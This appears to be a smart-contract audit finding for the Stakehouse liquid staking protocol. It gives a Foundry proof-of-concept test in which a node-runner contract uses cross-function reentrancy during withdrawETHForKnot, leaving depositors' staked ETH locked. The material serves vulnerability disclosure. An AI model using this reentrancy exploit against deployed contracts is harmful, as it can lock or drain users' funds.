 Add the following test to `LiquidStakingManager.t.sol`
https://github.com/code-423n4/2022-11-stakehouse/blob/4b6828e9c807f2f7c569e6d721ca1289f7cf7112/test/foundry/LiquidStakingManager.t.sol#L121
```
    function testLockStakersFunds() public {
        uint256 startAmount = 8 ether;
        // Create NodeRunner. Constructor registers two BLS Keys
        address nodeRunner = address(new NodeRunner{value: startAmount}(manager, blsPubKeyOne, blsPubKeyTwo, address(this)));
        
        // Simulate state transitions in lifecycle status to initials registered (value of 1)
        MockAccountManager(factory.accountMan()).setLifecycleStatus(blsPubKeyOne, 1);

        // savETHUser, feesAndMevUser funds used to deposit into validator BLS key #1
        address feesAndMevUser = accountTwo; vm.deal(feesAndMevUser, 4 ether);
        address savETHUser = accountThree; vm.deal(savETHUser, 24 ether);
        
        // deposit savETHUser, feesAndMevUser funds for validator #1
        depositIntoDefaultSavETHVault(savETHUser, blsPubKeyOne, 24 ether);
        depositIntoDefaultStakingFundsVault(feesAndMevUser, blsPubKeyOne, 4 ether);

        // withdraw ETH for first BLS key and reenter
        // This will perform a cross-function reentracy to call stake
        vm.startPrank(nodeRunner);
        manager.withdrawETHForKnot(nodeRunner, blsPubKeyOne);
        // Simulate state transitions in lifecycle status to ETH deposited (value of 2)
        // In real deployment, when stake is called TransactionRouter.registerValidator is called to change the state to DEPOSIT_COMPLETE 
        MockAccountManager(factory.accountMan()).setLifecycleStatus(blsPubKeyOne, 2);
        vm.stopPrank();
        
        // Validate mintDerivatives reverts because of banned public key 
        (,IDataStructures.ETH2DataReport[] memory reports) = getFakeBalanceReport();
        (,IDataStructures.EIP712Signature[] memory sigs) = getFakeEIP712Signature();
        vm.expectRevert("BLS public key is banned or not a part of LSD network");
        manager.mintDerivatives(
            getBytesArrayFromBytes(blsPubKeyOne),
            reports,
            sigs
        );

        // Validate depositor cannot burn LP tokens
        vm.startPrank(savETHUser);
        vm.expectRevert("Cannot burn LP tokens");
        savETHVault.burnLPTokensByBLS(getBytesArrayFromBytes(blsPubKeyOne), getUint256ArrayFromValues(24 ether));
        vm.stopPrank();
    }

```

To run the POC execute: `yarn test -m testLockStakersFunds -v `
